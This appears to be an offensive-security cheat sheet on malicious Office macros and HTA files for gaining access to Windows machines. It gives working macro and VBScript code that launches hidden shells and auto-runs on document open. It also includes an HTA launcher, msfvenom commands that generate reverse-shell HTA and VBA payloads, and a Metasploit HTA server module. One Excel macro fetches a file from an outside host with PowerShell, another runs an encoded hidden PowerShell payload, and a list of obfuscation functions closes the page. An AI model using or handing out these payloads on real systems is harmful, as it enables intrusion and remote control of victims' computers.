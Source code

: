 # Useful Visual Basic for Applications

Beware these uses for VBA, if you find code like this on your computer tell a member of IT. I don't how you got here, unless you have good ethical hacking reasons in which case enjoy true horror of VBA scripts, as many as I find and explain their cool use cases.

VB script shell:
```vb
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\cmd.exe " & WScript.ScriptFullName),0,True
```
If .vbs is blacklisted run using wscript /e:VBScript with a rename to script.txt 

## Visual Basic 4 Apps 

#### Word Macro shell:
```vb
Sub PoC()
	Dim payload As String
	payload = "cmd.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

#### HTML application:

Also known as HTA, these are dynamic html pages host with a python3 -m http.sever 1337
```html
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```


OR
```bash
reverse shell with netcat
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
```
OR 
```bash
metasploit: msfconsole -q
use exploit/windows/misc/hta_server
```

#### Excel HTA

Excel HTA macro from THM Throwback

```vb
Sub HelloWorld()
    PID = Shell("powershell.exe -c Invoke-WebRequest -Uri https://ip/passwd -OutFile C:\passwd", vbNormalFocus)
End Sub

Sub Auto_Open()
    HelloWorld
End Sub
```

#### Metasploit VBA

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=53 -f vba -o macro.vba
```

#### Encoded Payloads

```vb
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = "powershell.exe -nop -w hidden -e base64encoded"
    Str = Str + "base64encodepayloadappendstrequalstring"
  	...
	Str = Str + "endofthebase64=="

    CreateObject("Wscript.Shell").Run Str
End Sub
```

#### Obfuscation

[[Obfuscation-Principles]]


```vb
Chr() ' return the character associated with the specified character code.
ChrW() ' Returns the Unicode character that corresponds to the specified character code
CBool() ' convert to a boolean
Len() ' returns the number of characters in a text string.
LenB() ' returns the number of bytes used to represent the characters in a text string
Trim() ' Trims both leading and tailing string expressions
```

https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/chr-function
https://support.microsoft.com/en-gb/office/len-lenb-functions-29236f94-cedc-429d-affd-b5e33d2c67cb
https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/ltrim-rtrim-and-trim-functions
https://learn.microsoft.com/en-us/office/vba/language/concepts/getting-started/type-conversion-functions
https://help.libreoffice.org/latest/ro/text/sbasic/shared/03120112.html

## References

